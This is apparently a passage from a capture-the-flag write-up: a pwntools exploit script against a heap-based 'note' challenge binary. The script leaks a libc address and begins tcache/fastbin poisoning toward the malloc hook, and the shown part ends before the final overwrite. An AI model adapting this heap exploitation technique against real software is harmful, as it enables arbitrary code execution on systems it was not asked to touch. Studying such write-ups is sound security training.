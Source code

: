 The `idx` and `size` value should be 0 to satisfy one_gadget limitation.
```python=
from pwn import *
import sys
if len(sys.argv) >1:
    r = remote(sys.argv[1], int(sys.argv[2]))
else:
    r = process('./note')

def create(size):
    r.sendlineafter(':', '1')
    r.sendlineafter(':', str(size))

def edit(idx, ctx):
    r.sendlineafter(':', '2')
    r.sendlineafter(':', str(idx))
    r.sendafter(':', ctx)

def show(idx):
    r.sendlineafter(':', '3')
    r.sendlineafter(':', str(idx))

def copy(src,dst):
    r.sendlineafter(':', '4')
    r.sendlineafter(':', str(src))
    r.sendlineafter(':', str(dst))

def delete(idx):
    r.sendlineafter(':', '5')
    r.sendlineafter(':', str(idx))

for i in range(7):
    create(0x60)
    delete(0)

for i in range(7):
    create(0x400)
    delete(0)

create(0x80)
create(0x400)
create(0x80)
create(0x400)
create(0x80)
create(0x60)
create(0x60)
create(0x80)
delete(1)

edit(3, 'A'*0x100 + '\n')
copy(3, 0)
show(0)

r.recvn(0x91)
libc = u64(r.recvn(8)) - 0x3ebca0
print('libc', hex(libc))

delete(6)
delete(5)

copy(3, 4)
edit(3, 'A'*0x90 + p64(libc+0x3ebc30-0x28+5))
copy(3, 4)

```